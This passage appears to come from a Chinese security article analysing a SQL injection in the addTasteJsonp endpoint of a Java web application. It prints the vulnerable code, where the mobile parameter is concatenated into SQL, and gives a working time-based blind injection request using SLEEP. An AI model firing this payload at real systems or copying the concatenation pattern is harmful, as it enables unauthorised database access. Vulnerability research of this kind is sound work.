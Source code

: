 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmByjpproxgicMy0RmU8Xj2S427jZWE28WlXjBercfAYs41G1RibL9eLfw/640?wx_fmt=png "null")  
  
## addTasteJsonp 注入  
  
使用jar-analyzer  
工具搜索该方法被调用的地方  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmUPMtT41ruI8v1GTR6UmHpMY3pVlbQbjbgrV5Dz56fjAibsAgw4rUdOQ/640?wx_fmt=png "null")  
  
  
发现 addTasteJsonp  
 函数一样调用了 saveTaste  
 漏洞点都是一样的  
```
   @ClearInterceptor   public void addTasteJsonp() {      String company = Util.null2String(this.getPara("company"));      String userName = Util.null2String(this.getPara("userName"));      String mobile = Util.null2String(this.getPara("mobile"));      String jsonp = Util.null2String(this.getPara("jsonpcallback"));      String from = Util.null2String(this.getPara("from"), "1");      int status = 1;      String msg = this.saveTaste(company, userName + "(客户)", mobile, from, "", "");      if (msg.equals("")) {         status = 0;      }      this.renderText(jsonp + "({status:" + status + "})");   }
```  
  
在 saveTaste  
 函数343  
行代码中，sql语句中直接拼接了 mobile 字符串的值，导致漏洞产生。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmsmLRn9AJudc3PPuSx7lS6IsiawdyuYDXFQnyA6tuJabGelicOumvByhw/640?wx_fmt=png "null")  
  
### 漏洞复现  
```
GET /taste/addTasteJsonp?company=1&userName=1&jsonpcallback=1&mobile=1%27%20AND%20(SELECT%208094%20FROM%20(SELECT(SLEEP(3)))mKjk)%20OR%20%27KQZm%27=%27REcX HTTP/1.1Host: 127.0.0.1:8088
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmquiapYDHPjBL4AjzjWLD1GDlpgWxuNyjS3f69Dw0oibSTn8CbkWUeO2g/640?wx_fmt=png "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmEQdiccNPgPy92Q1QA2m0U0HJBoKXx835XUL3ll45hpZ2WBkl5gCXfkw/640?wx_fmt=png "null")  
  
  
